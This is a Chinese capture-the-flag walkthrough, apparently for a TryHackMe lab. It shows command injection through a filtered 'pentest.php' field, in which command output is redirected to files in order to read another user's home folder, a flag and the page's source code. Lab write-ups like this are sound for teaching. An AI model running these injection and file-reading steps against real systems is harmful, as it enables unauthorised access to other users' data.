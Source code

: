 打开“pentest.php”页面。

![](img/61fbb8829e4a2a6d5da833833461a43d.png)

一个简单 unix 命令的快速测试，看起来这个盒子正在过滤一些命令，比如 bin，whoami，php 和 python。不过滤`ls`、`cat`、`curl`、`sh`等命令。

![](img/701f9e32e838413fea29e82a63ecd6a3.png)![](img/0ca4f20c0a836c0d1d2e83de5883bb22.png)

输入的每个命令都不会在此页面中输出。所以我决定测试我是否从命令输出中写一个文件。

```
cat /home/files/pass.txt > /home/files/pass2.txt
```

打开`files`用户主文件夹，

```
**files@safezone**:**~**$ ls
**pass.txt**  pass2.txt
```

它工作了。所以，让我们试试其他的

```
ls -al /home/yash > /home/files/yash.txt# cat ~/yash.txt
...
-rw-rw-r-- 1 yash yash   38 Jan 30 15:24 flag.txt
...cat ~/flag.txt > /home/files/yash.txt# cat ~/yash.txt
THM{c296539f3286a89XXXXXXXXXXXXXXXXX}
```

现在我们发现了第一面旗帜。继续找根旗。记住，消息文本框实际上过滤了某些命令。我们检查一下源代码怎么样？

```
cat * > /home/files/yash.txt
```
